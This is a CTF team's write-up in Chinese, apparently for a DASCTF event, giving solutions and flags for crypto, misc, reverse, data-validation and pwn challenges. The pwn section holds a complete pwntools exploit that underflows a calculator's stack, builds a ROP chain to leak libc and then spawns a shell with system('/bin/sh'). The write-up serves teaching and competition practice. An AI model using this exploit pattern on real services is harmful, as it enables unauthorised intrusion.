









# 想不出队名-解题思路

## 团队信息

- 团队名称：想不出队名
- 单位：浙江大学


## 解题情况


## 解题过程

### Web

#### 咋输不进去捏



burp直接抓包发



flag为`DASCTF{28000374538472247879621211846324}`

***

### Crypto

#### 简单数学题

二元一次方程解出 p, q 直接 RSA 解密即可：

```python
from Crypto.Util.number import *

sum_pq = 15870713655456272818998868095126610389501417235762009793315127525027164306871912572802442396878309282140184445917718237547340279497682840149930939938364752    
diff_pq = 836877201325346306269647062252443025692393860257609240213263622058769344319275021861627524327674665653956022396760961371531780934904914806513684926008590     
e = 65537
c = 24161337439375469726924397660125738582989340535865292626109110404205047138648291988394300469831314677804449487707306159537988907383165388647811395995713768215918986950780552907040433887058197369446944754008620731946047814491450890197003594397567524722975778515304899628035385825818809556412246258855782770070

p = (sum_pq + diff_pq) // 2
q = (sum_pq - diff_pq) // 2

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, p * q)
print(long_to_bytes(m))
```

得到 flag 截图：


***

#### AES

简单 AES 加密，直接逆回去即可，Payload 如下：

```python
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import hashlib

def decrypt_aes_cbc(ciphertext, password, iv):
    key = hashlib.md5(password.encode()).digest()[:16]
    cipher = AES.new(key, AES.MODE_CBC, iv.encode())
    plaintext = cipher.decrypt(ciphertext)
    return plaintext

ciphertext = "H4vkfGfsU+qBEwaa7ea9gBkRcraMqbe4BGaxDb/9JG4zGleqT1VxyzGbDj/yuQn8"
ciphertext = ciphertext.encode('utf-8')
ciphertext = base64.b64decode(ciphertext)
print(ciphertext)
password = "Cryptography"
iv = "0123456789abcdef"

plaintext = decrypt_aes_cbc(ciphertext, password, iv)
print(plaintext)
```

得到 flag 截图：


#### base64

base64解码即可


flag为`DASCTF{40b90508f63bc79628b2edc775e148b9}`

***

### Misc

#### easySteg0

查看图片备注看到base64表


010editor打开图片发现结尾有一个rar压缩包，其中隐藏了字节流数据


base64解码出flag


flag为`DASCTF{7afaa02f35821faec37ae2ae910902bc}`

***
### Pwn

#### easy calc

注意到数据和操作符会被分开放到main的s区域。输入 `)` 操作前如果是 `+-*/` ，会从数据栈上弹出两个数，如果此时栈上只有一个数，那么数据栈的指针会被多减一个，从而反向溢出到40168A函数的return address：



下面只需要考虑怎么完整的布置好下面的ROP链，而不让函数退出时破坏我们布置好的数据栈。这里我找到的序列是 '()' ，')' 能够压入数据，而'()' 能保证数据最终不被计算而完整地保留在栈上。


下面直接打板子，先puts泄露libc，然后回到start再打一次，调用 system("/bin/sh")

exp.py:

```python
from pwn import *
from os import *
from wstube import websocket

context(os='linux', arch='amd64', log_level='debug', terminal=['tmux', 'split', '-h'])

script = \
"""
    # b *0x40168A
    # b *0x4017A4
    b *0x401531
    b *0x402325
    # b puts
    c
"""

# p = process("./pwn")
p=remote("10.1.100.200", 8888)

# p = gdb.debug("./pwn",gdbscript=script)

elf = ELF("./pwn")
Libc = ELF("./libc.so.6")

def s(a):
    p.send(a)

def sa(a, b):
    p.sendafter(a, b)

def sl(a):
    p.sendline(a)

def sla(a, b):
    p.sendlineafter(a, b)


puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
pop_rdi_ret = 0x402330
ret = pop_rdi_ret + 1
read_plt = elf.plt['read']
puts_off = Libc.sym['puts']
start = 0x401150
one_gadget = 0xe3afe # 0xe3b01 0xe3b04
p.recvuntil("output:8")
# sla("input:", b"1234+1234-1234(+-+-")
sla("input:", f"{pop_rdi_ret}+){puts_got}(){puts_plt}(){start}")
p.recvline()
p.recvline()
leak = p.recv(6) 
leak += b"\x00\x00"
libc = u64(leak)
print("libc")
print(hex(libc))
print(leak)

libc_addr = libc - puts_off
success("libc : " + hex(libc_addr))
binsh = libc_addr + 0x1B45BD
system = libc_addr + Libc.sym['system']


p.recvuntil("output:8")
# sla("input:", b"1234+1234-1234(+-+-")
sla("input:", f"{pop_rdi_ret}+){binsh}(){ret}(){system}(){start}")


p.interactive()
```

获得 flag 截图：


***
### Reverse

#### 你是我的天命人吗

```C
strcpy(Str2, "4440514050437D3E386C3A3F3E6F386D232124202D7420742C2F2E282525782D124344471015405A");
...
i_1 = strlen(Str);
for ( i = 0; i < i_1; ++i )
{
    v12 = Str[i];
    Str[102] = i;
    *(_WORD *)Buffer = 0;
    v2 = 0;
    sprintf(Buffer, "%02X", (unsigned __int8)i ^ (unsigned __int8)v12);
    strcat_0(Destination, Buffer);
}
```




flag为`DASCTF{90e042b6b30639a6c464398f22bfd40f}`

#### androidtest

直接解压缩拿到`libtest.so`查看函数



显然为base32，一把梭



flag为`DASCTF{android_anti_and_test_is_interesting}`

***

### 数据安全

#### check1

Payload 如下：

```python
import pandas as pd
from datetime import datetime
import re

def validate_id_card(id_card):    
    if len(id_card) != 18:        
        return False
    if not id_card[:17].isdigit():       
        return False
    last_char = id_card[17]    
    if not (last_char.isdigit() or last_char in ['X', 'x']):        
        return False
    weights = [7, 9, 10, 5, 8, 4, 2, 1, 6, 3, 7, 9, 10, 5, 8, 4, 2]    
    check_codes = ['1', '0', 'X', '9', '8', '7', '6', '5', '4', '3', '2']
    total = 0    
    for i in range(17):        
        total += int(id_card[i]) * weights[i]
    mod_result = total % 11    
    expected_check_code = check_codes[mod_result]
    return id_card[17].upper() == expected_check_code

def validate_gender(id_card, gender):
    last_second_char = id_card[16]
    check_gender = int(last_second_char) % 2
    if (check_gender == 0) and (gender == "女"):
        return True
    if (check_gender == 1) and (gender == "男"):
        return True
    return False

def validate_phone(phone):   
    if len(phone) != 11 or not phone.isdigit():        
        return False    
    if not phone.startswith('1'):        
        return False    
    return True

def validate_name(name):    
    if not isinstance(name, str) or not name:        
        return False    
    if len(name) < 2 or len(name) > 4:        
        return False    
    return bool(re.match(r'^[\u4e00-\u9fa5]{2,4}$', name))

def validate_birth(id_card, birth):
    return id_card[6:14] == birth

def validate_time(birth, reg_date, login_date):
    login_date_obj = datetime.strptime(login_date, '%Y-%m-%d %H:%M:%S')
    reg_date_obj = datetime.strptime(reg_date, '%Y-%m-%d %H:%M:%S')
    if reg_date_obj > login_date_obj:
        return False
    birth_date_obj = datetime.strptime(birth, '%Y%m%d')                
    if reg_date_obj < birth_date_obj:                    
        return False
    return True

data = pd.read_csv("./data.csv")
answer = []
for _, row in data.iterrows():
    if not(validate_id_card(row['身份证号'])):
        continue
    if not(validate_birth(row['身份证号'], row['出生日期'].replace('-', ''))):
        continue
    if not(validate_gender(row['身份证号'], row['性别'])):
        continue
    if not(validate_name(row['姓名'])):
        continue
    if not(validate_phone(str(row['手机号']))):
        continue
    if not(validate_time(row['出生日期'].replace('-', ''), row['注册时间'], row['最后登录时间'])):
        continue

    answer.append(row)

answer = pd.DataFrame(answer)
answer.to_csv('answer.csv', index=False, encoding='utf-8')
```

获得 flag 截图：


***
#### shop

Payload 如下（由于查看输出发现频率的错误项并不多所以直接没写）：

```python
import pandas as pd
import re
from datetime import datetime

amount_limit = {
    "电子产品": (100, 5000),
    "服装鞋包": (50, 1000),
    "家居用品": (30, 2000),
    "美妆护肤": (20, 800),
    "食品饮料": (5, 300),
    "图书文具": (5, 200),
    "运动户外": (50, 3000)
}

def validate_bank_card(card_num):    
    if not card_num.isdigit():        
        return False    
    if len(card_num) < 16 or len(card_num) > 19:        
        return False
    digits = list(map(int, card_num))    
    digits.reverse()
    total = 0    
    for i, digit in enumerate(digits):        
        if i % 2 == 1:            
            doubled = digit * 2            
            total += doubled if doubled < 10 else doubled - 9        
        else:            
            total += digit
    return total % 10 == 0

def validate_amount(type, amount):
    low = amount_limit[type][0]
    high = amount_limit[type][1]
    return (amount >= low) and (amount <= high)

data = pd.read_csv("./data.csv")
answer = []

for _, row in data.iterrows():
    if not(validate_amount(row['商品类型'], row['订单金额'])):
        answer.append([row['用户ID'], '金额异常'])

for _, row in data.iterrows():
    if not(validate_bank_card(row['银行卡号'])):
        answer.append([row['用户ID'], '银行卡异常'])
        continue

data['下单时间'] = pd.to_datetime(data['下单时间'])
for _, group in data.groupby('银行卡号'):
    group['小时'] = group['下单时间'].dt.hour
    for _, hour_group in group.groupby('小时'):
        users = hour_group['用户ID'].unique()
        if len(users) > 1:
            for user in users:
                answer.append([user, '银行卡异常'])

result_df = pd.DataFrame(answer, columns=['用户ID', '异常类型'])   
result_df = result_df.drop_duplicates()
result_df.to_csv('answer.csv', index=False, encoding='utf-8')
```

获得 flag 截图：



***

### 信创安全

***

### AI安全

经过人工查看得到：

- 6e17fffa-b696-4769-9b43-e0f453f8098d 第154张
- 7a19da17-9f4a-411b-bac7-83d2454d868a 第166张
- 26c39cf8-55fb-4899-82bc-442cf4627d95 第259张
- 897a3a87-dfcf-4233-8097-6bba2e6507ba 第455张
- c6b1099a-d626-4cbd-94fc-32aa46ffb02b 第770张
- d5117480-7943-48f8-9e79-67fdd51092d2 第871张

这几张图片符合要求，直接 md5 得到结果：


